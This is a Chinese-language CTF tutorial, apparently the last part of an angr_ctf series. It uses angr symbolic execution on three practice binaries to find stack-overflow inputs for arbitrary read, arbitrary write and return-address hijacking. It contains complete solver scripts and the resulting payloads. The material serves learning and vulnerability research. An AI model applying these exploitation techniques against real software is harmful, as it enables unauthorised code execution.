 这是angr_ctf系列的最后一节，在这一节我们通过三个栈溢出的例子来学习angr在漏洞挖掘方向的简单应用。

## 15_angr_arbitrary_read

这是一个非常入门级的栈溢出题，程序逻辑如下：

![image-20211007094226454](img/image-20211007094226454.png)

手动分析的思路非常简单，scanf处有一个任意读漏洞，可以通过scanf将s的地址覆盖为0x484F6038，使`puts(s)`能够打印"Good Jobs"：

![image-20211007094346598](img/image-20211007094346598.png)

直接梭哈的话不太行，angr没有分析出这个栈溢出漏洞，原因可能是angr无法分析出"Good Job"来自哪个地址：

```python
import angr

proj = angr.Project('../dist/15_angr_arbitrary_read')
state = proj.factory.entry_state()
simgr = proj.factory.simgr(state)
simgr.explore(
    find=lambda state : b'Good Job.' in state.posix.dumps(1),
    avoid=lambda state: b'Try again.' in state.posix.dumps(1)
)
print(simgr.found[0].posix.dumps(0))	# 不行
```

该题是通过puts输出的，所以我们可以将判断输出中是否包含"Good Job."的条件改为，puts的参数是否为"Good Job."的地址，即0x484F6038。检测puts参数的代码如下，很好理解：

```python
def check_puts(state):
    puts_parameter = state.memory.load(state.regs.esp + 4, 4, endness=proj.arch.memory_endness)
    if state.solver.symbolic(puts_parameter):
        good_job_string_address = 0x484F6038
        is_vulnerable_expression = puts_parameter == good_job_string_address
        copied_state = state.copy()
        copied_state.add_constraints(is_vulnerable_expression)
        if copied_state.satisfiable():
            state.add_constraints(is_vulnerable_expression)
            return True
    return False
```

explore的条件is_successful：

```python
def is_successful(state):
    puts_address = 0x08048370
    if state.addr == puts_address:
        return check_puts(state)
    return False
```

程序的流程并不是很复杂，所以本题的关键还是在于给explore函数找到一个合适的判定条件。在自动化Pwn中，这个条件往往要改为执行到`system("/bin/sh")`。

完整代码：

```python
import angr

def check_puts(state):
    puts_parameter = state.memory.load(state.regs.esp + 4, 4, endness=proj.arch.memory_endness)
    if state.solver.symbolic(puts_parameter):
        good_job_string_address = 0x484F6038
        is_vulnerable_expression = puts_parameter == good_job_string_address
        copied_state = state.copy()
        copied_state.add_constraints(is_vulnerable_expression)
        if copied_state.satisfiable():
            state.add_constraints(is_vulnerable_expression)
            return True
    return False

def is_successful(state):
    puts_address = 0x08048370
    if state.addr == puts_address:
        return check_puts(state)
    return False

proj = angr.Project('../dist/15_angr_arbitrary_read')
state = proj.factory.entry_state()
simgr = proj.factory.simgr(state)
simgr.explore(find=is_successful)
print(simgr.found[0].posix.dumps(0))
```

输出：

```python
b'0041810812 \xd9\xd9\xd1\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd98`OH'
```

有一个要注意的地方是这里：

```python
puts_parameter = state.memory.load(state.regs.esp + 4, 4, endness=proj.arch.memory_endness)
```

的`endness=proj.arch.memory_endness`是指定读取的方式为小端。

## 16_angr_arbitrary_write

这题的思路稍微比上题复杂一点，在这题中我们可以通过scanf将dest覆盖成任意地址，然后通过第二个strncpy向dest中保存的地址写入任何数据，因此我们可以向任何地址写入任何数据，这是一个任意写漏洞。首先我们将dest覆盖成password_buffer的地址，然后再通过第二个strncpy往dest中写入"PASSWORD"，最后输出"Good Job."：

![image-20211007101137899](img/image-20211007101137899.png)

![image-20211007101308229](img/image-20211007101308229.png)

直接梭哈还是不行，原因可能是angr没有判断出password_buffer可以被覆盖为符号值。

还是按照上题的思路，这回我们要check的是strncpy函数，约束条件为dest指向的地址为password_buffer，并且src为"NDYNWEUJ"，代码如下：

```python
def check_strncpy(state):
    dest = state.memory.load(state.regs.esp + 4, 4, endness=proj.arch.memory_endness)
    src = state.memory.load(state.regs.esp + 8, 4, endness=proj.arch.memory_endness)
    src_content = state.memory.load(src, 8)
    if state.solver.symbolic(src_content) and state.solver.symbolic(dest):
        is_vulnerable_expression = claripy.And(src_content == b'NDYNWEUJ', dest == 0x57584344)
        copied_state = state.copy()
        copied_state.add_constraints(is_vulnerable_expression)
        if copied_state.satisfiable():
            state.add_constraints(is_vulnerable_expression)
            return True
    return False
```

完整代码：

```python
import angr
import claripy

def check_strncpy(state):
    dest = state.memory.load(state.regs.esp + 4, 4, endness=proj.arch.memory_endness)
    src = state.memory.load(state.regs.esp + 8, 4, endness=proj.arch.memory_endness)
    src_content = state.memory.load(src, 8)
    if state.solver.symbolic(src_content) and state.solver.symbolic(dest):
        is_vulnerable_expression = claripy.And(src_content == b'NDYNWEUJ', dest == 0x57584344)
        copied_state = state.copy()
        copied_state.add_constraints(is_vulnerable_expression)
        if copied_state.satisfiable():
            state.add_constraints(is_vulnerable_expression)
            return True
    return False

def is_successful(state):
    strncpy_address = 0x08048410
    if state.addr == strncpy_address:
        return check_strncpy(state)
    return False

proj = angr.Project('../dist/16_angr_arbitrary_write')
state = proj.factory.entry_state()
simgr = proj.factory.simgr(state)
simgr.explore(find=is_successful)
print(simgr.found[0].posix.dumps(0))
```

输出：

```python
b'0011604995 NDYNWEUJ\xd9\xd9\xd9\xd9\xd9\xd1\xd9\xd9DCXW'
```

## 17_angr_arbitrary_jump

非常经典的ROP，可以覆盖返回值实现任意跳转：

![image-20211007104740278](img/image-20211007104740278.png)![image-20211007104749105](img/image-20211007104749105.png)

当一个指令有很多分支的可能性时，称之为不受约束（unconstrained）的状态， 比如说当用户的输入决定下一条指令的位置。angr 在遇到不受约束的状态时会将其抛出，本题将要关闭这个默认行为，转而利用此状态去求解能够跳转到print_good函数的payload。

求解步骤：

- 初始化proj，让 angr 记录不受约束的状态
- 开始step直到发现 eip 为符号的状态
- 约束 eip 与 print_good 函数地址相同
- 约束求解

完整exp：

```python
import angr
import claripy

proj = angr.Project('../dist/17_angr_arbitrary_jump')
payload = claripy.BVS('payload', 64 * 8)
state = proj.factory.entry_state(stdin=payload)
simgr = proj.factory.simgr(
    state, 
    save_unconstrained=True, 
    stashes={
        'active':[state],
        'unconstrained': [],
        'found': [],
    })
while (len(simgr.active) or len(simgr.unconstrained)) and not len(simgr.found):
    for unconstrained in simgr.unconstrained:
        eip = unconstrained.regs.eip
        print_good_addr = 0x42585249
        if unconstrained.satisfiable(extra_constraints=[eip == print_good_addr]):
            unconstrained.add_constraints(eip == print_good_addr)
            simgr.move('unconstrained', 'found')
            break
    simgr.drop(stash="unconstrained")
    simgr.step()

print(simgr.found[0].posix.dumps(0))
```

输出：

```python
b'\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xda\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdbIRXB\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\x00\x00\x00\x00\x00'
```

打印unconstrained状态，可以发现其地址是由输入决定的：

```python
>>> unconstrained
<SimState @ <BV32 payload_0_512[199:192] .. payload_0_512[207:200] .. payload_0_512[215:208] .. payload_0_512[223:216]>>
```

所以我们对eip进行约束求解，就能找到会导致栈溢出的payload。